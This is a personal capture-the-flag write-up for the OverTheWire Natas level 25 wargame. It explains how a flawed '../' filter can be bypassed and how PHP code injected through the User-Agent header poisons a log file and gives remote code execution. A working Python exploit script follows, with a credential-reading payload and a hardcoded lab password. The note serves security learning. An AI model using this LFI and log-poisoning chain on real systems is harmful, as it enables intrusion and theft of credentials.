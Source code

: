 
2024-07-25 18:59

Source: #web #py #natas 

Tags: [[LFI]]
### Natas25

- we have a page with some quote written on it and a language dropdown with `de` and `en` as 2 options 
- a function is called that sets the language - in that function a `safeinclude` named function is called that takes a filename as input and checks for directory traversal
- The `safeinclude` function replaces instances of `../` with empty strings and generates a log file in a specified path which is vulnerable 
- the `safeinclude` function also checks if "natas_webpass" is in the filename, 

Try directory traversal in a way like - `..././` so even if `../` is replaced with `""`  the remaining still equals  `../`
we can use this technique to get access to everything in the file system **including the log files** 

because we can control what this HTTP user agent is (that is input for us) we can modify that HTTP header so because we're including this file and because it's being spat out from the web server, that is looking at PHP code normally right we've got notices and warnings and all these other issues that are coming through what if we put PHP code as our user agent 

we'll be able to read it because we can specify we want our user agent to be the string which will get injected into that log entry and will be able to read because of local file inclusion and then it'll evaluate that PHP and give us remote code execution( [[RCE]]) with this .

```python
import requests
username = 'natas25'
password = 'ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws'

url = 'http://natas25.natas.labs.overthewire.org/'
session = requests.Session()

headers = {"User-Agent": "<?php system('cat /etc/natas_webpass/natas26');?>"}

response = session.get(url,auth=(username,password))

response = session.post(url,headers=headers,data={"lang": "..././..././..././..././..././/var/www/natas/natas25/logs/natas25_"+session.cookies['PHPSESSID']+".log"},auth=(username,password))

print(response.text)
```

### References
https://www.youtube.com/watch?v=K1rBD0lJ0o8
